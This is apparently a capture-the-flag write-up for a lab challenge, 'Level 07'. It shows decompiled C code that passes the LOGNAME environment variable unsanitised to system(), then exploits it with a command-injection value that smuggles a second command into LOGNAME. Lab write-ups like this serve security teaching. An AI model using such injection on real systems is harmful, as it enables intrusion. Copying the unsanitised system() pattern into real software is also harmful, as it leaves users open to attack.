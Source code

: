 # Level 07

We can decompile the file using [dogbotl](https://dogbolt.org) and observe this line.
```c
logName = getenv("LOGNAME");
asprintf(&cmd,"/bin/echo %s ", logName);
return system(cmd);
```
Here we are making a command with `/bin/echo` and the content of the environnement variable LOGNAME and then sending it to system. 


We can exploit this by passing multiple commands to system.
```sh
$ LOGNAME="; getflag" ./level07 
```